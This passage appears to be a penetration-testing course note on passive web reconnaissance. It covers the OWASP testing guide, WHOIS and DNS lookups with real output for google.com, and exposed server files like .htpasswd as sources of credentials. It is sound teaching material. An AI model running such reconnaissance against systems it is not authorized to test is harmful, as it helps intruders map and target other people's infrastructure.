




# Web Application Penetration Testing

## Course Introduction

### Course Topic Overview

- Passive Information Gathering
	- Ownership and IP Addresses Discovery (with WHOIS)
	- Website Fingerprinting (with Netcraft)
	- Passive DNS Enumeration (with DNSRecon)
	- Reviewing Webserver Metafiles for Information Leakage (Manual)
	- Web App Technology Fingerprinting (with BuiltWith/Wappalyzer/WhatWeb)
	- Passive Crawling (with Burp Suite)
- Active Information Gathering
	- Web Server Fingerprinting (with Nmap/Metasploit)
	- Web Server Vulnerability Scanning (with Nikto)
	- File and Directory Brute-Force Attacks (with Gobuster)
	- Automated Web Reconnaissance (with OWASP Amass)
- Identifying and Exploiting XSS Vulnerabilities (Stored, Reflected, DOM-Based)
- Identifying and Exploiting SQLi Vulnerabilities (Error-Based, Union-Based)

### Prerequisites

- Basic familiarity with the web (TCP/IP, UDP and HTTP)
- Familiarity with Windows and Linux

### Learning Objectives

- You will learn how to use the OWASP Web Security Testing Guide as a methodology for web app pentesting engagements.
- You will be able to perform passive web app information gathering.
- You will learn how to perform passive and active DNS enumeration.
- You will learn how to detect web application firewalls (WAF).
- You will learn how to perform spidering and crawling to identify the content structure of websites.
- You will learn how to perform subdomain enumeration through publicly available sources and through subdomain brute-force attacks.
- You will learn how to perform file and directory enumeration.
- You will learn how to utilize automated tools and web proxies to identify and exploit XSS vulnerabilities in web applications.
- You will be able to identify and exploit In-Band SQL Injection vulnerabilities (Error-Based SQLi and UNION-Based SQLi).

---
---

## Passive Information Gathering

### Introduction to Web Enumeration and Information Gathering - Theory

**What is Information Gathering?**

Information gathering is the first step of any penetration test and involves gathering or collecting information about an individual, company, website, or system that you are targeting. The more information you have on your target, the more successful you will be during the latter stages of a penetration test.

Information gathering is typically broken down into two types:
- **Passive information gathering** - Involves gathering as much information as possible without actively engaging with the target.
- **Active information gathering/Enumeration** - Involves gathering as much information as possible by actively engaging with the target system (You will require authorization in order to perform active information gathering).

Gathering information about the target server/web app is the initial phase of any penetration test, and is arguable the most important phase of the entire engagement.

One of the nuances of this phase is that there is no unnecessary information, everything you collect should be recorded/saved for future use.

In the context of web application penetration testing, the information collected in this phase will become extremely useful in understanding the website/web application logic and structure during the initial access/exploitation phase.

**What Information Are We Looking For?**
- Website & domain ownership.
- IP addresses, domains, and subdomains.
- Hidden files & directories.
- Hosting infrastructure (web server, CMS, Database, etc.).
- Presence of defensive solutions like a web application firewall (WAF).

**Passive Information Gathering**
- Identifying domain names and domain ownership information.
- Discovering hidden/disallowed files and directories.
- Identifying web server IP addresses & DNS records.
- Identifying web technologies being used on target sites.
- WAF detection.
- Identifying subdomains.
- Identifying website content structure.

**Active Information Gathering/Enumeration**
- Downloading & analyzing website/web app source code.
- Port scanning & service discovery.
- Web server fingerprinting.
- Web application scanning.
- DNS Zone Transfers.
- Subdomain enumeration via Brute-Force.

### OWASP Web Security Testing Guide - Theory

#### OWASP Web Security Testing Guide

The OWASP Web Security Testing Guide (WSTG), developed by the Open Web Application Security Project (OWASP), is a key resource for assessing web application security. Widely used by security professionals, developers, and testers, it helps identify and address web application vulnerabilities.

The WSTG offers a standardized methodology for web application security assessments, useful for penetration testers, security analysts, developers, and auditors.

**Structure of the Guide**

The guide is organized into sections, each focusing on different areas of web application security:
1. **Information Gathering**: Techniques to collect data about the target application.
2. **Configuration and Deployment Management Testing**: Evaluating the application's configuration and deployment security.
3. **Identity Management Testing**: Examining user authentication and authorization mechanisms.
4. **Authentication Testing**: Ensuring secure and robust authentication methods.
5. **Authorization Testing**: Verifying that users can only access authorized resources.
6. **Session Management Testing**: Assessing the security of session management.
7. **Input Validation Testing**: Identifying vulnerabilities related to input validation.
8. **Testing for Error Handling**: Ensuring proper error handling without information leakage.
9. **Cryptography Testing**: Assessing the use of cryptographic mechanisms.
10. **Business Logic Testing**: Identifying flaws in the application’s business logic.
11. **Client-Side Testing**: Examining the security of client-side components.

**Testing Techniques**

The guide details both manual and automated testing methods for each area, providing a step-by-step approach to identify vulnerabilities.

**Best Practices**

WSTG emphasizes secure coding practices, regular security testing, and continuous monitoring to maintain application security.

**Tools and Resources**

It recommends a variety of tools, from open-source to commercial, to assist in security testing.

**Updates and Community Involvement**

Regular updates ensure the guide reflects the latest security threats and testing methodologies. It is maintained by a community of security professionals who contribute their expertise.

#### OWASP Testing Checklist

The OWASP Testing Checklist is an Excel-based resource designed to assist in the comprehensive assessment of web application security. Developed in alignment with the OWASP Testing Guide, this checklist serves as a practical tool for tracking the status of completed and pending security test cases.
The [OWASP Testing Checklist](https://github.com/tanprathan/OWASP-Testing-Checklist) is available on GitHub. This resource is freely available and can be used and adapted to fit the specific needs of your organization or project.

**Purpose and Use**

The OWASP Testing Checklist is intended to provide a structured approach to web application security testing. It helps security professionals, developers, and testers ensure that all critical areas of a web application are examined for potential vulnerabilities. The checklist is particularly useful for:
- **Tracking Testing Progress**: It helps in tracking which test cases have been completed and which are still pending, ensuring a thorough assessment.
- **Standardization**: It ensures that all tests are conducted following a standardized methodology, which helps in maintaining consistency and comprehensiveness across different assessments.
- **Documentation**: It serves as a documented proof of testing efforts, which can be useful for audits and compliance purposes.

**Additional Tools**

The checklist also includes:
- **OWASP Risk Assessment Calculator**: A tool to help assess the severity and impact of identified vulnerabilities.
- **Summary Findings Template**: A template for documenting and summarizing the findings of the security assessment.

### Ownership and IP Addresses Discovery (with WHOIS) - Theory/Lab

WHOIS is a query and response protocol widely used for querying databases that store registered users or assignees of an Internet resource, such as domain names, IP address blocks, or autonomous systems. The WHOIS database contains information about domain name registrants, such as their names, addresses, email addresses, and other contact information.

**Purpose of WHOIS**

The primary purpose of WHOIS is to provide transparency in the domain name registration process. It allows individuals and organizations to look up the ownership details of a domain name, which can be useful for various reasons, including:
1. **Domain Management**: Domain owners use WHOIS to verify their domain details and ensure their contact information is up to date.
2. **Cybersecurity**: Security professionals use WHOIS data to investigate cybercrimes, track malicious activities, and gather information about the domain registrants involved in phishing attacks or malware distribution.
3. **Legal and Regulatory Compliance**: WHOIS data is used by legal entities and law enforcement to resolve disputes and enforce laws related to domain ownership.
4. **Business and Marketing**: Companies may use WHOIS to find contact information for potential business opportunities or partnerships.

**How WHOIS Works**

WHOIS operates through a client-server architecture where a WHOIS client sends a query to a WHOIS server, which responds with the requested information. The data is maintained by various entities, including domain registrars and regional internet registries (RIRs).

**Key Components of WHOIS Data**

- **Domain Name**: The registered domain name.
- **Registrar**: The organization responsible for registering the domain name.
- **Registrant Name**: The name of the person or entity that registered the domain.
- **Contact Information**: Includes postal address, email address, and phone number of the registrant.
- **Administrative and Technical Contacts**: Individuals responsible for managing the domain.
- **Domain Status**: Information about the domain's current status (e.g., active, expired, suspended).
- **Creation and Expiration Dates**: Dates when the domain was registered and when it is set to expire.
- **Nameservers**: The DNS servers associated with the domain.

**Privacy and WHOIS**

Given the sensitivity of the data, privacy concerns have led to the implementation of various measures to protect registrant information. Some registrars offer privacy protection services that replace the registrant's contact details with proxy information. Additionally, GDPR and other data protection regulations have influenced how WHOIS data is handled, limiting the availability of personal data.

**Accessing WHOIS Information**

WHOIS data can be accessed through various means:
- **Web-based WHOIS Services**: Many registrars and RIRs provide web interfaces to perform WHOIS lookups (e.g. [DomainTools Whois](https://whois.domaintools.com/)).
- **Command Line Tools**: Tools like `whois` in Unix-based systems allow users to query WHOIS databases directly from the command line.
- **APIs**: Several services offer APIs for automated WHOIS queries, useful for integration into applications and security tools.

#### WHOIS - Practical Demo

`whois google.com`:
```
Domain Name: GOOGLE.COM ←
   Registry Domain ID: 2138514_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.markmonitor.com
   Registrar URL: http://www.markmonitor.com
   Updated Date: 2019-09-09T15:39:04Z
   Creation Date: 1997-09-15T04:00:00Z
   Registry Expiry Date: 2028-09-14T04:00:00Z
   Registrar: MarkMonitor Inc.
   Registrar IANA ID: 292
   Registrar Abuse Contact Email: abusecomplaints@markmonitor.com
   Registrar Abuse Contact Phone: +1.2086851750
   Domain Status: clientDeleteProhibited https://icann.org/epp#clientDeleteProhibited
   Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
   Domain Status: clientUpdateProhibited https://icann.org/epp#clientUpdateProhibited
   Domain Status: serverDeleteProhibited https://icann.org/epp#serverDeleteProhibited
   Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited
   Domain Status: serverUpdateProhibited https://icann.org/epp#serverUpdateProhibited
   Name Server: NS1.GOOGLE.COM ←
   Name Server: NS2.GOOGLE.COM ←
   Name Server: NS3.GOOGLE.COM ←
   Name Server: NS4.GOOGLE.COM ←
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2024-06-13T09:01:43Z <<<

For more information on Whois status codes, please visit https://icann.org/epp

NOTICE: The expiration date displayed in this record is the date the
registrar's sponsorship of the domain name registration in the registry is
currently set to expire. This date does not necessarily reflect the expiration
date of the domain name registrant's agreement with the sponsoring
registrar.  Users may consult the sponsoring registrar's Whois database to
view the registrar's reported date of expiration for this registration.

TERMS OF USE: You are not authorized to access or query our Whois
database through the use of electronic processes that are high-volume and
automated except as reasonably necessary to register domain names or
modify existing registrations; the Data in VeriSign Global Registry
Services' ("VeriSign") Whois database is provided by VeriSign for
information purposes only, and to assist persons in obtaining information
about or related to a domain name registration record. VeriSign does not
guarantee its accuracy. By submitting a Whois query, you agree to abide
by the following terms of use: You agree that you may use this Data only
for lawful purposes and that under no circumstances will you use this Data
to: (1) allow, enable, or otherwise support the transmission of mass
unsolicited, commercial advertising or solicitations via e-mail, telephone,
or facsimile; or (2) enable high volume, automated, electronic processes
that apply to VeriSign (or its computer systems). The compilation,
repackaging, dissemination or other use of this Data is expressly
prohibited without the prior written consent of VeriSign. You agree not to
use electronic processes that are automated and high-volume to access or
query the Whois database except as reasonably necessary to register
domain names or modify existing registrations. VeriSign reserves the right
to restrict your access to the Whois database in its sole discretion to ensure
operational stability.  VeriSign may restrict or terminate your access to the
Whois database for failure to abide by these terms of use. VeriSign
reserves the right to modify these terms at any time.

The Registry database contains ONLY .COM, .NET, .EDU domains and
Registrars.
Domain Name: google.com
Registry Domain ID: 2138514_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.markmonitor.com
Registrar URL: http://www.markmonitor.com
Updated Date: 2019-09-09T15:39:04+0000
Creation Date: 1997-09-15T07:00:00+0000
Registrar Registration Expiration Date: 2028-09-13T07:00:00+0000
Registrar: MarkMonitor, Inc.
Registrar IANA ID: 292
Registrar Abuse Contact Email: abusecomplaints@markmonitor.com
Registrar Abuse Contact Phone: +1.2086851750
Domain Status: clientUpdateProhibited (https://www.icann.org/epp#clientUpdateProhibited)
Domain Status: clientTransferProhibited (https://www.icann.org/epp#clientTransferProhibited)
Domain Status: clientDeleteProhibited (https://www.icann.org/epp#clientDeleteProhibited)
Domain Status: serverUpdateProhibited (https://www.icann.org/epp#serverUpdateProhibited)
Domain Status: serverTransferProhibited (https://www.icann.org/epp#serverTransferProhibited)
Domain Status: serverDeleteProhibited (https://www.icann.org/epp#serverDeleteProhibited)
Registrant Organization: Google LLC ←
Registrant State/Province: CA
Registrant Country: US ←
Registrant Email: Select Request Email Form at https://domains.markmonitor.com/whois/google.com
Admin Organization: Google LLC
Admin State/Province: CA
Admin Country: US
Admin Email: Select Request Email Form at https://domains.markmonitor.com/whois/google.com
Tech Organization: Google LLC
Tech State/Province: CA
Tech Country: US
Tech Email: Select Request Email Form at https://domains.markmonitor.com/whois/google.com
Name Server: ns1.google.com
Name Server: ns3.google.com
Name Server: ns2.google.com
Name Server: ns4.google.com
DNSSEC: unsigned
URL of the ICANN WHOIS Data Problem Reporting System: http://wdprs.internic.net/
>>> Last update of WHOIS database: 2024-06-13T09:00:41+0000 <<<

For more information on WHOIS status codes, please visit:
  https://www.icann.org/resources/pages/epp-status-codes

If you wish to contact this domain’s Registrant, Administrative, or Technical
contact, and such email address is not visible above, you may do so via our web
form, pursuant to ICANN’s Temporary Specification. To verify that you are not a
robot, please enter your email address to receive a link to a page that
facilitates email communication with the relevant contact(s).

Web-based WHOIS:
  https://domains.markmonitor.com/whois

If you have a legitimate interest in viewing the non-public WHOIS details, send
your request and the reasons for your request to whoisrequest@markmonitor.com
and specify the domain name in the subject line. We will review that request and
may ask for supporting documentation and explanation.

The data in MarkMonitor’s WHOIS database is provided for information purposes,
and to assist persons in obtaining information about or related to a domain
name’s registration record. While MarkMonitor believes the data to be accurate,
the data is provided "as is" with no guarantee or warranties regarding its
accuracy.

By submitting a WHOIS query, you agree that you will use this data only for
lawful purposes and that, under no circumstances will you use this data to:
  (1) allow, enable, or otherwise support the transmission by email, telephone,
or facsimile of mass, unsolicited, commercial advertising, or spam; or
  (2) enable high volume, automated, or electronic processes that send queries,
data, or email to MarkMonitor (or its systems) or the domain name contacts (or
its systems).

MarkMonitor reserves the right to modify these terms at any time.

By submitting this query, you agree to abide by this policy.

MarkMonitor Domain Management(TM)
Protecting companies and consumers in a digital world.

Visit MarkMonitor at https://www.markmonitor.com
Contact us at +1.8007459229
In Europe, at +44.02032062220
--
```

`host google.com`:
```
google.com has address 142.250.180.174
google.com has IPv6 address 2a00:1450:4002:403::200e
google.com mail is handled by 10 smtp.google.com.
```

`whois 142.250.180.174`:
```
#
# ARIN WHOIS data and services are subject to the Terms of Use
# available at: https://www.arin.net/resources/registry/whois/tou/
#
# If you see inaccuracies in the results, please report at
# https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
#
# Copyright 1997-2024, American Registry for Internet Numbers, Ltd.
#


NetRange:       142.250.0.0 - 142.251.255.255 ←
CIDR:           142.250.0.0/15
NetName:        GOOGLE
NetHandle:      NET-142-250-0-0-1
Parent:         NET142 (NET-142-0-0-0-0)
NetType:        Direct Allocation
OriginAS:       AS15169
Organization:   Google LLC (GOGL) ←
RegDate:        2012-05-24
Updated:        2012-05-24
Ref:            https://rdap.arin.net/registry/ip/142.250.0.0


OrgName:        Google LLC
OrgId:          GOGL
Address:        1600 Amphitheatre Parkway ←
City:           Mountain View ←
StateProv:      CA
PostalCode:     94043
Country:        US
RegDate:        2000-03-30
Updated:        2019-10-31
Comment:        Please note that the recommended way to file abuse complaints are located in the following links. 
Comment:        
Comment:        To report abuse and illegal activity: https://www.google.com/contact/
Comment:        
Comment:        For legal requests: http://support.google.com/legal 
Comment:        
Comment:        Regards, 
Comment:        The Google Team
Ref:            https://rdap.arin.net/registry/entity/GOGL


OrgAbuseHandle: ABUSE5250-ARIN
OrgAbuseName:   Abuse
OrgAbusePhone:  +1-650-253-0000 
OrgAbuseEmail:  network-abuse@google.com
OrgAbuseRef:    https://rdap.arin.net/registry/entity/ABUSE5250-ARIN

OrgTechHandle: ZG39-ARIN
OrgTechName:   Google LLC
OrgTechPhone:  +1-650-253-0000 
OrgTechEmail:  arin-contact@google.com
OrgTechRef:    https://rdap.arin.net/registry/entity/ZG39-ARIN


#
# ARIN WHOIS data and services are subject to the Terms of Use
# available at: https://www.arin.net/resources/registry/whois/tou/
#
# If you see inaccuracies in the results, please report at
# https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
#
# Copyright 1997-2024, American Registry for Internet Numbers, Ltd.
#
```

### Website Fingerprinting (with Netcraft) - Theory

[Netcraft](https://www.netcraft.com/) is a leading internet services company that specializes in providing detailed internet security services and market analysis. One of its key functionalities includes information gathering, particularly through techniques like website fingerprinting.

**Website Fingerprinting**

Website fingerprinting is a method used to gather detailed information about a website's infrastructure and technologies. Netcraft uses this technique to analyze various aspects of a website, helping organizations and individuals understand the site's security posture and technological stack. Here’s an overview of how this process works and its purposes:

**How Website Fingerprinting Works**

Website fingerprinting involves collecting data about a website to create a "fingerprint" that uniquely identifies its characteristics. This includes:
1. **Server Information**: Identifying the type of web server software being used (e.g., Apache, Nginx, IIS).
2. **Operating Systems**: Detecting the operating system on which the web server is running.
3. **SSL/TLS Configuration**: Analyzing the SSL/TLS certificates and configurations to ensure they are secure.
4. **Hosting Provider**: Identifying the hosting provider and understanding the hosting environment.
5. **Web Technologies**: Detecting various web technologies and frameworks used on the site (e.g., content management systems like WordPress, e-commerce platforms, JavaScript libraries).

**Netcraft's Information Gathering Tools**

Netcraft provides various tools for website fingerprinting and information gathering:

- **Site Report**: Generates detailed reports about a website, including server details, hosting information, and the technologies in use.
- **SSL Survey**: Analyzes SSL/TLS certificates to ensure they are properly configured and secure.
- **Phishing Protection**: Identifies phishing sites by analyzing their characteristics and comparing them against known phishing signatures.

### Passive DNS Enumeration (with DNSRecon) - Theory

Now that we have gathered some valuable information about our target, we can start digging deeper into the data we found to build a map/topology of the target site and its underlying infrastructure.
A valuable resource for this information is the Domain Name System (DNS).
We can query DNS to identify the DNS records associated with a particular domain or IP address.

**DNS**

Domain Name System (DNS) is a protocol that is used to resolve domain names/hostnames to IP addresses.
During the early days of the internet, users would have to remember the IP addresses of the sites that they wanted to visit, DNS resolves this issue by mapping domain names (easier to recall) to their respective IP addresses.
A DNS server (nameserver) is like a telephone directory that contains domain names and their corresponding IP addresses.
A plethora of public DNS servers have been set up by companies like Cloudflare (1.1.1.1) and Google (8.8.8.8). These DNS servers contain the records of almost all domains on the internet.

**DNS Records**

- A - Resolves a hostname or domain to an IPv4 address.
- AAAA - Resolves a hostname or domain to an IPv6 address.
- NS - Reference to the domain's nameserver.
- MX - Resolves a domain to a mail server.
- CNAME - Used for domain aliases.
- TXT - Text record.
- HINFO - Host information.
- SOA - Domain authority.
- SRV - Service records.
- PTR - Resolves an IP address to a hostname.

#### DNSRecon

DNSRecon is a powerful command-line tool used for DNS reconnaissance. It is designed to perform comprehensive DNS enumeration and gather detailed information about DNS zones and records. DNSRecon is commonly used by security professionals, penetration testers, and network administrators to assess the security and configuration of DNS servers.

**Purpose of dnsrecon**

The primary purpose of dnsrecon is to gather DNS information and identify potential security issues in DNS configurations. It supports a variety of DNS query types and techniques, making it an essential tool for anyone conducting DNS reconnaissance or security assessments.

**Key Features and Capabilities**

1. **Standard DNS Queries**
    - **Function**: Performs standard DNS queries to retrieve A, AAAA, MX, NS, SOA, and other DNS records.
    - **Use Case**: Helps in understanding the basic DNS setup and identifying key DNS records for a domain.
2. **Zone Transfers (AXFR)**
    - **Function**: Attempts to perform DNS zone transfers to retrieve the entire zone file from a DNS server.
    - **Use Case**: Useful for identifying all DNS records in a domain, which can reveal internal network structure and sensitive information if the zone transfer is not properly secured.
3. **Reverse Lookups**
    - **Function**: Performs reverse DNS lookups on a range of IP addresses to find associated domain names.
    - **Use Case**: Helps in mapping out the IP address space and identifying domains hosted on specific IP addresses.
4. **Brute Force**
    - **Function**: Brute-forces subdomain and host names using a wordlist.
    - **Use Case**: Effective for discovering hidden or less obvious subdomains that might not be listed publicly.
5. **Cache Snooping**
    - **Function**: Checks if DNS servers have cached certain DNS queries.
    - **Use Case**: Used to determine if a DNS server has been queried for specific records, which can provide insights into query patterns and potential security concerns.
6. **Zone Walks**
    - **Function**: Enumerates DNSSEC-signed zones using NSEC and NSEC3 records.
    - **Use Case**: Allows for enumeration of all names in a zone that uses DNSSEC, even if zone transfers are not allowed.
7. **Google Enumeration**
    - **Function**: Uses Google to search for subdomains.
    - **Use Case**: Leverages Google's extensive indexing to discover subdomains that might be missed by other techniques.

**Practical Applications**

- **Security Assessments**: Identifies misconfigurations and potential vulnerabilities in DNS setups.
- **Network Mapping**: Provides a detailed map of the DNS infrastructure, aiding in network planning and management.
- **Incident Response**: Helps in quickly gathering DNS information during a security incident to understand the scope and impact.

`dnsrecon -d google.com`:
```
[*] std: Performing General Enumeration against: google.com...
[-] DNSSEC is not configured for google.com
[*]      SOA ns1.google.com 216.239.32.10
[*]      SOA ns1.google.com 2001:4860:4802:32::a
[*]      NS ns1.google.com 216.239.32.10 ←
[*]      NS ns1.google.com 2001:4860:4802:32::a
[*]      NS ns2.google.com 216.239.34.10
[*]      NS ns2.google.com 2001:4860:4802:34::a
[*]      NS ns3.google.com 216.239.36.10
[*]      NS ns3.google.com 2001:4860:4802:36::a
[*]      NS ns4.google.com 216.239.38.10
[*]      NS ns4.google.com 2001:4860:4802:38::a
[*]      MX smtp.google.com 74.125.143.27 ←
[*]      MX smtp.google.com 173.194.69.26
[*]      MX smtp.google.com 173.194.69.27
[*]      MX smtp.google.com 173.194.79.26
[*]      MX smtp.google.com 173.194.79.27
[*]      MX smtp.google.com 2a00:1450:4013:c05::1b
[*]      MX smtp.google.com 2a00:1450:4013:c03::1a
[*]      MX smtp.google.com 2a00:1450:4013:c04::1a
[*]      MX smtp.google.com 2a00:1450:4013:c04::1b
[*]      A google.com 142.250.180.174
[*]      AAAA google.com 2a00:1450:4002:403::200e
[*]      TXT google.com v=spf1 include:_spf.google.com ~all
[*]      TXT google.com apple-domain-verification=30afIBcvSuDV2PLX
[*]      TXT google.com MS=E4A68B9AB2BB9670BCE15412F62916164C0B20BB
[*]      TXT google.com docusign=05958488-4752-4ef2-95eb-aa7ba8a3bd0e
[*]      TXT google.com docusign=1b0a6754-49b1-4db5-8540-d2c12664b289
[*]      TXT google.com facebook-domain-verification=22rm551cu4k0ab0bxsw536tlds4h95
[*]      TXT google.com onetrust-domain-verification=de01ed21f2fa4d8781cbc3ffb89cf4ef
[*]      TXT google.com globalsign-smime-dv=CDYX+XFHUw2wml6/Gb8+59BsH31KzUr6c1l2BPvqKX8=
[*]      TXT google.com google-site-verification=TV9-DBe4R80X4v0M4U_bd_J9cpOJM0nikft0jAgjmsQ
[*]      TXT google.com google-site-verification=wD8N7i1JTNTkezJ49swvWW48f8_9xveREV4oB-0Hf5o
[*]      TXT google.com cisco-ci-domain-verification=479146de172eb01ddee38b1a455ab9e8bb51542ddd7f1fa298557dfa7b22d963
[*]      TXT _dmarc.google.com v=DMARC1; p=reject; rua=mailto:mailauth-reports@google.com
[*] Enumerating SRV Records
[+]      SRV _ldap._tcp.google.com ldap.google.com 216.239.32.58 389
[+]      SRV _ldap._tcp.google.com ldap.google.com 2001:4860:4802:32::3a 389
[+]      SRV _carddavs._tcp.google.com google.com 142.250.180.174 443
[+]      SRV _carddavs._tcp.google.com google.com 2a00:1450:4002:403::200e 443
[+]      SRV _caldav._tcp.google.com calendar.google.com 142.251.209.14 80
[+]      SRV _caldav._tcp.google.com calendar.google.com 2a00:1450:4002:410::200e 80
[+]      SRV _caldavs._tcp.google.com calendar.google.com 142.251.209.14 443
[+]      SRV _caldavs._tcp.google.com calendar.google.com 2a00:1450:4002:410::200e 443
[+] 8 Records Found
```

#### DNSdumpster

[DNSdumpster](https://dnsdumpster.com/) is a free online tool designed for network reconnaissance and information gathering. It is primarily used to gather comprehensive DNS information about a target domain, which can help in identifying various subdomains, mapping the domain infrastructure, and visualizing the network structure. This tool is invaluable for security professionals, penetration testers, and anyone interested in understanding the DNS setup of a domain.

**Key Features and Capabilities**

1. **Subdomain Discovery**    
    - **Function**: DNSdumpster can uncover a large number of subdomains associated with a target domain. This is crucial for understanding the full scope of an organization’s online presence and identifying potential security weaknesses.
    - **Use Case**: By listing subdomains, security professionals can find out if there are any forgotten or misconfigured subdomains that could be exploited by attackers.
2. **Domain Mapping**
    - **Function**: It maps out the domain’s DNS infrastructure, showing relationships between different DNS records and services.
    - **Use Case**: This helps in visualizing how the domain is structured, including mail servers, web servers, and other related services, aiding in a thorough security assessment.
3. **Graphical Visualization**
    - **Function**: DNSdumpster provides a visual representation of the domain's DNS information, often in the form of a graph.
    - **Use Case**: Viewing the graph can help users quickly understand the connections and dependencies within the domain’s DNS setup, making it easier to spot anomalies and areas that need attention.
4. **DNS Record Retrieval**
    - **Function**: The tool retrieves various types of DNS records including A, MX, TXT, and NS records.
    - **Use Case**: These records provide detailed information about the domain’s DNS configuration, which is essential for troubleshooting issues and enhancing security measures.
5. **Reverse DNS Lookup**
    - **Function**: DNSdumpster can perform reverse DNS lookups to find the domain names associated with specific IP addresses.
    - **Use Case**: This is useful for mapping out the IP space and identifying which domains are hosted on particular IP addresses, aiding in network reconnaissance and security analysis.

### Reviewing Webserver Metafiles for Information Leakage (Manual) - Theory

Reviewing web server metafiles involves analyzing specific files stored on web servers that provide insights into the server’s configuration, structure, and potentially sensitive information. These metafiles can be useful in information gathering and reconnaissance activities during security assessments or penetration testing.

**Key Web Server Metafiles for Information Gathering**

Here are some of the most commonly analyzed web server metafiles and their significance:

1. **robots.txt**
    
	- **Purpose**: Provides instructions to web crawlers about which parts of the website should not be crawled or indexed.
    - **Use in Information Gathering**: Can reveal sensitive directories or files that the server administrator does not want indexed, which can be of interest to attackers.
    - **Example**:
		```javascript
		User-agent: *
		Disallow: /admin/
		Disallow: /config/
		```

2. **sitemap.xml**
	
	- **Purpose**: Lists the URLs of a site to inform search engines about the pages that are available for crawling.
	- **Use in Information Gathering**: Can provide a comprehensive list of all accessible URLs, helping attackers map the website structure.
	- **Example**:
		```xml
		<url>
		  <loc>http://www.example.com/page1</loc>
		  <lastmod>2024-01-01</lastmod>
		</url>
		```

3. **.htaccess**

	- **Purpose**: Configuration file for use on web servers running the Apache Web Server software. It can control directory-level settings like URL redirections, access controls, and more.
	- **Use in Information Gathering**: Can reveal security configurations, URL rewrites, and access control settings.
	- **Example**:
		```bash
		AuthType Basic
		AuthName "Restricted Area"
		AuthUserFile /path/to/.htpasswd
		Require valid-user
		```

4. **.htpasswd**

	- **Purpose**: Contains username and password pairs for basic authentication on Apache servers.
	- **Use in Information Gathering**: If exposed, it can provide credentials that attackers can use to access restricted areas.
	- **Example**:
		```swift
		user1:$apr1$randomsalt$hashvalue
		```

5. **crossdomain.xml**

